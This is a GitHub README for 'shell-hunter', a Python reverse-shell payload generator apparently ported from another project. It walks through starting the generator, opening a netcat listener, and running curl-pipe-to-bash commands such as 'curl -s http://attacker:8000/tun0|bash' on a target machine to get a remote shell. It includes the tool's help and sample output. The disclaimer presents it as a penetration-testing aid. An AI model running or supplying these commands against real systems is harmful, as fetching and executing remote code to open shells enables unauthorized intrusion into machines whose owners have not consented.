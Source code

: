 # shell-hunter

> This is a Python version of https://github.com/lukechilds/reverse-shell with additional functionality (if you want to call it that).   
> All credit goes to lukechilds

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Start the generator

On your attacking machine, start the generator.  It will auto populate interfaces that have IP addresses and the `curl` command associated with it if no arguments are provided.  Not all interfaces in this output will be relevant and this is only useful if you use an interface name in the request.  

You can specify the http server listening port as well, otherwise it defaults to 8000.

```generator
usage: shell-hunter.py [-h] [-s SERVER] [-l LISTENER] [-i IPADDRESS] [-I INTERFACE]

Automatic payload generation

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Python http server listener
  -l LISTENER, --listener LISTENER
                        nc listener
  -i IPADDRESS, --ipaddress IPADDRESS
                        IP address
  -I INTERFACE, --interface INTERFACE
                        Interface name
```
This is the default output if no flags are provided.  This is only included as a template and the output will change depending on if you include an IP address.  Changing the IP address and/or port is still possible without restarting, but the `curl` template will not refresh.

```output
Shell generator started: 8000
curl -s http://127.0.0.1:8000/lo|bash
curl -s http://10.0.0.85:8000/eth0|bash
curl -s http://10.0.0.85:8000/tun0|bash
curl -s http://172.17.0.1:8000/docker0|bash
```
### 2. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -lvnp 1337
```
### 2. Execute reverse shell on target

On the target machine,

```shell examples
curl -s http://attacker:8000/tun0|bash
curl -s http://attacker:8000/IP:PORT|bash
curl -s http://attacker:8000/IP|bash
```

Go back to your machine, you should now have a shell prompt.

### 3.  Disclaimer

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.  Obligatory "I'm not responsible for your actions and/or misuse of this code"
